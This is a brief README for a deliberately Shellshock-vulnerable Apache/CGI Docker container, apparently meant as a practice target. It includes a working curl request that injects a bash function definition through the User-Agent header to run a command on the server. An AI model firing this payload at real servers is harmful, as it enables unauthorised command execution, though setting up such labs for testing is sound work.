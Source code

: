 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerable.


``` sh
#> docker run -d --name shellshock zenithar/shellshockable
#> docker ps
#> export WEBSRV=`docker inspect --format "{{.NetworkSettings.IPAddress}}" shellshock`
#> curl http://$WEBSRV/cgi-bin/shockme.cgi
#> curl -A "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /usr/lib/cgi-bin/shockme.cgi" http://$WEBSRV/cgi-bin/shockme.cgi
```
